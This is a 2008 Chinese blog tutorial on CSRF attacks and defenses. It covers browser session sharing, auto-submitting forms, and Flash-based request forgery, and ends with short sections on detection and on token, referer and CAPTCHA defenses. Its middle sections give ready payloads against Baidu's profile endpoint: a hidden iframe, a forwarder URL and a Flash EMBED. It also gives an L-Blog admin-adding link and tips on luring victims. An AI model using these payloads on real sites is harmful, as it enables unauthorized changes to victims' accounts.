 ```yaml
---
title: CSRF的攻击与防御
description: CSRF是CrossSiteRequestForgery的缩写（也缩写为XSRF），直译过来就是跨站请求伪造的意思，也就是在用户会话下对某个CGI做一些GET/POST的事情——这些事情用户未必知道和愿意做，你可以把它想做HTTP会话劫持。
date: 2008-04-11 09:15:39
category: 技术文章
tags: ['CSRF', '技术类', '安全']
post_id: 447
alias: CSRF-GongJu-Yu-FangYu
ViewNums: 5854
---
```


作者：lake2
来源：lake2的专栏

**0x01 什么是CSRF攻击**

[CSRF](/tags/CSRF)是Cross Site Request Forgery的缩写（也缩写为XSRF），直译过来就是跨站请求伪造的意思，也就是在用户会话下对某个CGI做一些GET/POST的事情——这些事情用户未必知道和愿意做，你可以把它想做HTTP会话劫持。
网站是通过cookie来识别用户的，当用户成功进行身份验证之后浏览器就会得到一个标识其身份的cookie，只要不关闭浏览器或者退出登录，以后访问这个网站会带上这个cookie。如果这期间浏览器被人控制着请求了这个网站的url，可能就会执行一些用户不想做的功能（比如修改个人资料）。因为这个不是用户真正想发出的请求，这就是所谓的请求伪造；呵呵，因为这些请求也是可以从第三方网站提交的，所以前缀跨站二字。
举个简单的例子，某个bbs可以贴图，在贴图的URL中写入退出登陆的链接，当用户阅读这个帖子之后就会logout了，因为用户以自己的身份访问了退出登陆链接，在用户看来是帖子里面有一张有问题的“图片”，而不是想要退出，但程序就会认为是用户要求退出登陆而销毁其会话。这就是传说中的CSRF攻击了。
不要小看CSRF哦，记得以前L-Blog就存在一个CSRF漏洞（当时还不知道这个概念:p），它添加管理员是这样的一个链接：http://localhost/L-Blog/admincp.asp?action=member&type=editmem& amp;memID=2&memType=SupAdmin，我们只要构造好ID想办法让管理员访问到这个URL就可以了；还有Google那个 CSRF漏洞[1]，将导致邮件泄漏；另外，不要以为只有XSS才能爆发[蠕虫](http://www.virus-info.cn/virus/Worm.html)，只要条件合适，CSRF同样是有可能的。

**0x02 威胁来自哪里**

贴图只是GET的方式，很多时候我们需要伪造POST的请求。一个办法是利用跨站，当然目标站点可能不存在跨站，这个时候我们可以从第三方网站发动攻击。
比如我要攻击一个存在问题的blog，那就先去目标blog留言，留下一个网址，诱其主人点击过来（这个就要看你的忽悠本事咯:p），然后构造个HTML表单提交些数据过去。
多窗口浏览器就帮了一点忙。
多窗口浏览器（firefox、遨游、MyIE……）便捷的同时也带来了一些问题，因为多窗口浏览器新开的窗口是具有当前所有会话的。即我用IE登陆了我的Blog，然后我想看新闻了，又运行一个IE进程，这个时候两个IE窗口的会话是彼此独立的，从看新闻的IE发送请求到Blog不会有我登录的 cookie；但是多窗口浏览器永远都只有一个进程，各窗口的会话是通用的，即看新闻的窗口发请求到Blog是会带上我在blog登录的cookie。
想一想，当我们用鼠标在Blog/BBS/WebMail点击别人留下的链接的时候，说不定一场精心准备的CSRF攻击正等着我们。

**0x03 发起CSRF攻击**

从第三方站点利用POST发动CSRF攻击就是利用Javascript自动提交表单到目标CGI。每次都去写表单不是很方便，辅助进行的工具有XSS POST Forwarder[2]和CSRF Redirector[3]，这里我也写了相应的ASP版本[4]。使用的时候只要把提交的url和参数传给它，它就会自动POST到目标。
比如我要提交一些数据到www.0x54.org/a.asp：[http://www.0x54.org/lake2](http://www.0x54.org/lake2 "http://www.0x54.org/lake2") /xss_post_forwarder.asp?lake2=http://www.0x54.org/a.asp&a=123& b=321&c=%26%23%25（这里要自己考虑URL编码哦）
不过实际攻击的时候你得动动脑子：如何才能把用户诱骗到我们的网页来。

**0x04 一个实例**

因为CSRF不如XSS那么引人注目，所以现在找一个存在CSRF的Web应用程序还是很容易的。这次我们的目标是百度，just for test。
随便你用什么办法，让一个已登陆百度的用户访问一下这个URL：[http://www.0x54.org/lake2](http://www.0x54.org/lake2 "http://www.0x54.org/lake2") /xss_post_forwarder.asp?lake2=http://passport.baidu.com/ucommitbas&u_jump_url=&sex=1&email=CSRF@baidu.com&sdv=&zodiac=0&birth_year=0&birth_month=0&birth_day=0&blood=0&bs0=%C7%EB%D1%A1%D4%F1&bs1=%C7%EB%D1%A1%D4%F1&bs2=%CE%DE&txt_bs=&birth_site=%3B%3B&b%3Drs0=%C7%EB%D1%A1%D4%F1&rs1=%C7%EB%D1%A1%D4%F1&rs2=%CE%DE&txt_rs=&reside_site=%3B%3B
呵呵，然后看看那人个人资料是不是被修改了。这里有点郁闷，当那人访问URL后浏览器会返回到资料修改成功的页面，我们就被发现了。那么，有没有办法不让浏览器刷新呢？
有。
一个办法是用iframe，构造这样的HTML代码：
```html
<iframe width=0 height=0 src="http://www.0x54.org/lake2/xss_post_forwarder.asp?lake2=http://passport.baidu.com/ucommitbas&u_jump_url=&sex=1&email=CSRF@baidu.com&sdv=&zodiac=0&birth_year=0&birth_month=0&birth_day=0&blood=0&bs0=%C7%EB%D1%A1%D4%F1&bs1=%C7%EB%D1%A1%D4%F1&bs2=%CE%DE&txt_bs=&birth_site=%3B%3B&b%3Drs0=%C7%EB%D1%A1%D4%F1&rs1=%C7%EB%D1%A1%D4%F1&rs2=%CE%DE&txt_rs=&reside_site=%3B%3B"></iframe>
```
还有一个办法就是用flash了。

**0x05 CSRF With Flash**
flash是可以提交数据到任意URL的，打开盗版的 Adobe flash CS 3 Professional，新建一个 flash文件(ActionScript 3.0) ，在默认的图层上点右键选动作，然后把以下代码添加进去：
：
```as
import flash.net.URLRequest;
import flash.system.Security;
var url = new URLRequest("[http://www.0x54.org/lake2](http://www.0x54.org/lake2 "http://www.0x54.org/lake2")");
var lake = new URLVariables();
lake = "a=lake2";
url.method = "POST";
url.data = lake;
sendToURL(url);
stop();
```
导出为swf文件，访问之，抓包看看效果咯：[http://www.0x54.org/lake2/flash/test1.html](http://www.0x54.org/lake2/flash/test1.html "http://www.0x54.org/lake2/flash/test1.html")
每次都去写as和编译swf很麻烦的，根据CSRF Redirector的思路我写了一个类似的flash程序[5]，再拿百度来试试效果，访问带如下HTML的网页：
```html
<EMBED src="http://www.0x54.org/lake2/flash/flash_hacking.swf?f=1&t=http://passport.baidu.com/ucommitbas&d=u_jump_url%3D %26sex%3D1%26email%3DCSRF@baidu.com%26sdv%3D %26zodiac%3D0%26birth_year%3D0%26birth_month%3D0%26birth_day%3D0%26blood%3D0%26bs0 %3D%25C7%25EB%25D1%25A1%25D4%25F1%26bs1%3D %25C7%25EB%25D1%25A1%25D4%25F1%26bs2%3D%25CE%25DE%26txt_bs%3D %26birth_site%3D%253B%253B%26b%253Drs0%3D %25C7%25EB%25D1%25A1%25D4%25F1%26rs1%3D %25C7%25EB%25D1%25A1%25D4%25F1%26rs2%3D%25CE%25DE%26txt_rs%3D %26reside_site%3D%253B%253B"></EMBED>
```
（还是要注意URL二次编码）
这里不要只局限于发请求，其实flash是可以得到返回内容的，要是返回内容有敏感信息的话，就可以读出来发送到我们控制的Web去。当然，这个得看目标站点是否让flash跨域取内容了。

**0x06 检测CSRF**

检测CSRF漏洞都是体力活了，先抓取一个正常请求的数据包，然后去掉referer字段再重新提交，如果还是有效那基本上就存在问题了。当然参数可能含有不能预测的参数（比如userid什么的），这个时候就看这个不可预测的参数能不能通过其他手段比如flash拿到，如果能，呵呵，则还是存在问题。还有就是试着改post为get，因为有些程序是不区分get/post的。
应用程序的功能和返回形式都各不相同，所以想自动化测试CSRF漏洞还是有点困难的，OWASP上面有一个叫做CSRFTester的工具不妨拿来一试[6]

**0x07 防御CSRF**

在Web应用程序侧防御CSRF漏洞，一般都是利用referer、token或者验证码，Nexus的文章[7]已经写的很全面了；superhei也有提出bypass的思路[8]，请参考他们的文章。
还有一个思路是在客户端防御，貌似可以做成一个类似HTTP Watch的软件，挂在浏览器上拦截或者过滤跨域的cookie。

**0x08 总结**

希望本文对您有帮助，同时也欢迎各位同我交流：lake2@mail.csdn.net

[ Reference ]
[1] Google GMail E-mail Hijack Technique, [http://www.gnucitizen.org/blog/google-gmail-e-mail-hijack-technique/](http://www.gnucitizen.org/blog/google-gmail-e-mail-hijack-technique/ "http://www.gnucitizen.org/blog/google-gmail-e-mail-hijack-technique/")
[2] XSS POST Forwarder, [http://whiteacid.org/misc/xss_post_forwarder.php](http://whiteacid.org/misc/xss_post_forwarder.php "http://whiteacid.org/misc/xss_post_forwarder.php")
[3] CSRF Redirector, [http://shiflett.org/blog/2007/jul/csrf-redirector](http://shiflett.org/blog/2007/jul/csrf-redirector "http://shiflett.org/blog/2007/jul/csrf-redirector")
[4] ASP的XSS POST Forwarder下载(附送一个HTML版), [http://www.0x54.org/lake2/xss_post_forwarder.zip](http://www.0x54.org/lake2/xss_post_forwarder.zip "http://www.0x54.org/lake2/xss_post_forwarder.zip")
[5] 源代码和编译好的swf文件下载：[http://www.0x54.org/lake2/flash/flash_hacking.rar](http://www.0x54.org/lake2/flash/flash_hacking.rar "http://www.0x54.org/lake2/flash/flash_hacking.rar")
[6] CSRFTester, [http://www.owasp.org/index.php/Category:OWASP_CSRFTester_Project](http://www.owasp.org/index.php/Category%3AOWASP_CSRFTester_Project "http://www.owasp.org/index.php/Category:OWASP_CSRFTester_Project")
[7] Preventing CSRF, [http://www.playhack.net/view.php?id=31.](http://www.playhack.net/view.php?id=31. "http://www.playhack.net/view.php?id=31.") 汉化版, [http://www.hanguofeng.cn/archives/security/preventing-csrf](http://www.hanguofeng.cn/archives/security/preventing-csrf "http://www.hanguofeng.cn/archives/security/preventing-csrf")
[8] Bypass Preventing CSRF, [http://www.xfocus.net/articles/200801/964.html](http://www.xfocus.net/articles/200801/964.html "http://www.xfocus.net/articles/200801/964.html")

